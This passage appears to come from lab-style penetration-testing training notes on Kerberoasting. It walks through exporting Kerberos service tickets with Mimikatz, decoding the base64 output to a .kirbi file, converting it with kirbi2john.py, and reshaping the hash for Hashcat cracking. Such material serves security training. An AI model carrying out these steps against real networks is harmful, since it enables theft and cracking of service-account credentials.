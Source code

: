 {% code fullWidth="true" %}
```cmd-session
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export  
```
{% endcode %}

If we do not specify the `base64 /out:true` command, Mimikatz will extract the tickets and write them to `.kirbi` files. Depending on our position on the network and if we can easily move files to our attack host, this can be easier when we go to crack the tickets. Let's take the base64 blob retrieved above and prepare it for cracking.

Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

<mark style="color:green;">**Preparing the Base64 Blob for Cracking**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ echo "<base64 blob>" |  tr -d \\n 
```
{% endcode %}

We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

<mark style="color:green;">**Placing the Output into a File as .kirbi**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ cat encoded_file | base64 -d > sqldev.kirbi
```

Next, we can use [this](https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py) version of the `kirbi2john.py` tool to extract the Kerberos ticket from the TGS file.

<mark style="color:green;">**Extracting the Kerberos Ticket using kirbi2john.py**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ python2.7 kirbi2john.py sqldev.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

<mark style="color:green;">**Modifiying crack\_file for Hashcat**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
{% endcode %}
